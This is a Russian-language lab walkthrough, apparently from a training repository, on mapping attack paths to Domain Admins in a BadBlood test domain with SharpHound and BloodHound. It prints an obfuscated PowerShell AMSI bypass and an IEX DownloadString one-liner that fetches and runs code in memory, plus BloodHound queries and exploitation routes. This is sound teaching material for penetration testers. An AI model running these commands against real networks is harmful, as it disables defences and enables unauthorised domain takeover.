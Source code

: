 После создания стенда представим, что нам доступна учетная запись "org\user", имеющая доступ по RDP к нашему тестовому серверу/рабочей станции. BadBlood рандомно сгенерил права доступа к объектам в LDAP (как и сами эти объекты), и нашей учетной записи с большой вероятностью тоже достались какие-то права. Для анализа возможных путей развития атаки соберем информацию об объектах домена с помощью SharpHound.

## SharpHound
https://github.com/BloodHoundAD/SharpHound  
Это наиболее полный "родной" сборщик к BloodHound и собирает максимум информации (не считая дополнения от Certipy).  
Готовый exe антивирусы будут воспринимать как вредоносный файл. Но в комплекте доступен PowerShell скрипт, в который включен энкоженый бинарь, который будет записан напрямую в оперативную память и запущен оттуда без сохранения на диск.  
Перед запуском потребуется отключить AMSI (Antimalware Scan Interface работает только в версиях Windows 10 и Server 2016 и выше, и не работает в PowerShell 2). Обходы регулярно прикрывают и придумывают новые, актуальные способы можно посмотреть, например, здесь: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell  
Как вариант:  
```
[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
```
Выполняем это командой PowerShell, например, с хоста, где у нас есть RDP-доступ, и запускаем SharpHound:  
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1'); Invoke-BloodHound -c All -s
```
Если отсутствует доступ в интернет с хоста, можно загрузить на свою Kali (или другой хост аттакера, который используется в стенде) и расшарить с помощью python http.server (или другим предпочитаемым способом).

После окончания работы скрипта в директории запуска (или указанной в опциях запуска) должен сохраниться zip-архив с данными в формате для BloodHound. Забираем его с хоста и перетаскиваем в запущенный интерфейс BloodHound. После загрузки нажать "Refresh Database Stats" или перезапустить BloodHound:  
![refreshjpg](./images/refreshjpg.jpg)

Получаем граф вроде такого:
![first_screen](./images/first_screen.jpg)

## Поиск векторов

Теперь мы можем выполнять различные запросы в BloodHound для изучения возможных путей получения доступа. Для начала пометим нашу учетную запись как Owned с помощью следующего запроса (в ly4k версии Ctrl+Enter для запуска):  
```
MATCH (u:User) WHERE u.name in ["USER@ORG.LOCAL"] SET u.owned = true RETURN u
```
(ДопИнфо) Учетки компьютеров можно помечать так:  
```
MATCH (c:Computer) WHERE c.name in ["S1.BANK.LOCAL","S2.BANK.LOCAL"] SET c.owned = true RETURN c
```
Рассмотрите и попробуйте различные предзаготовленные вопросы:
![queries1](./images/queries1.jpg)
![queries2](./images/queries2.jpg)

Для нашего случая в первую очередь интересен "Shortest Paths to Domain Admins from Owned Principals".  
При удачном раскладе найдется цепочка, например так:  
![case1-1](./images/case1-1.jpg)

Здесь два GenericAll (BadBlood генерит только GenericAll) на учетки компов и 1 GenericAll на контейнер User.  
GenericAll на компьютеры наиболее удобно использовать для развития доступа с помощью вариантов:
- Получение пароля LAPS или GMSA (если используется)
- Shadow Credentials (для доменов с поддержкой msDS-KeyCredentialLink, т.е. где KDC >= Windows Server 2016)
- RBCD takeover для более старых доменов

GenericAll на контейнер User использовать не получится. Для дальнейшего исследования можно удалить (правой кнопкой, Delete Node) его из базы объектов (восстановить можно будет повторной загрузкой того же zip) и перезапустить запрос:
![case1-2](./images/case1-2.jpg)
В цепочке появился GenericAll на OU, проэксплуатировать его можно с помощью создания наследуемой ACE на доступ к OU. Метод экслуатации описан тут: https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#id37 (With GenericAll Over an OU).  
Также на https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html можно найти описание спобов эксплуатации других прав доступа, отображаемых BloodHound.

Другой пример полученной изначально в "Shortest Paths to Domain Admins from Owned Principals" цепочки (в другом домене):
![case2-DCOM](./images/case2-DCOM.jpg)

ExecuteDCOM в общем случае и чаще всего ничего нам не дает (читать тут https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#executedcom)  
Кроме того, CanRDP - это непривилегированный доступ и требует повышения на хосте до админа для дальнейшего продвижения по цепочке.
Мы можем отфильтровать неприятные типы прав доступа с помощью фильтров:
![case2-filters](./images/case2-filters.jpg)

С таким условием никаких цепочек "Shortest Paths to Domain Admins from Owned Principals" не находится.  
Чтобы повысить шансы, мы можем дополнительно пометить как High Value группы KEY ADMINS, ENTERPRISE KEY ADMINS. Следующий запрос также установит High Value для аккаунтов с Unconstrained delegation:
```
MATCH (dc:Computer)-[:MemberOf*1..]->(g:Group) WHERE g.objectsid ENDS WITH "516" WITH COLLECT(dc) as domainControllers MATCH p = (d:Domain)-[:Contains*1..]->(c:Computer {unconstraineddelegation:true}) WHERE NOT c in domainControllers SET c.highvalue = true RETURN c
```
Затем можем использовать запрос для поиска кратчайшего пути от Owned до High Value (или до Domain Admins, если это ближе):
```
MATCH p=shortestPath((u {owned: true})-[*1..]->(g:Group {name: 'DOMAIN ADMINS@ORG.LOCAL'})) WHERE NOT (u)-[:MemberOf*1..]->(:Group {highvalue: true}) RETURN p
```
Также для дополнительного исследования возможных путей можно использовать запросы 'Shortest Path from Owned principals', 'Find Shortest Paths to Domain Admins', 'Shortest Paths to High Value Targets', но они полезны преимущественно в комбинации с другими атаками, когда есть потенциал дополнительно скомпрометировать какие-либо объекты. Еще кастомный запрос для исследования цепочек заданной длины от Owned объектов:
```
MATCH p=shortestPath((c {owned: true})-[*1..5]->(s)) WHERE NOT c = s RETURN p
```
К сожалению, фильтры не работают на кастомные запросы. Можно просто удалить неудобные переходы. Удалив ExecuteDCOM, получим такую цепочку:
![case2-RDOC](./images/case2-RDOC.jpg)
Удалив CanRDP, получим "No data returned from query".  
Можно пойти другим путем, например, "Shortet Paths to Domain Admins from Kerberoastable Users":
![case2-kerberoastable](./images/case2-kerberoastable.jpg)
Цепочки выглядят перспективно.